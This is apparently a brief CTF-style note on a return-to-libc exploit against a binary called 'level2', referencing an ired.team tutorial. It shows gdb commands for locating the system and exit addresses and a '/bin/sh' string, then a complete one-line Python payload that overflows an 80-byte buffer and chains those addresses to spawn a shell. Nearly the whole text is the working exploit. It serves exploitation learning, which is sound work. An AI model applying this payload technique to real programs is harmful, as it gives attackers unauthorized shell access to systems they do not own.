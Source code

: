 https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc

we will need to :
- locate system and exit adresses
- "/bin/sh" string

"/bin/sh" and `system` : in gdb `b main; r; p system`
> $1 = {<text variable, no debug info>} **0xb7e6b060** <system>

find &system, +999999999, "/bin/sh"
> **0xb7f8cc58**

exit : `p exit`
> $1 = {<text variable, no debug info>} **0xb7e5ebe0** <exit>

ret: **0x0804854b**

`(python -c "print('a' * 80 + '\x4b\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7')"; cat) | ./level2`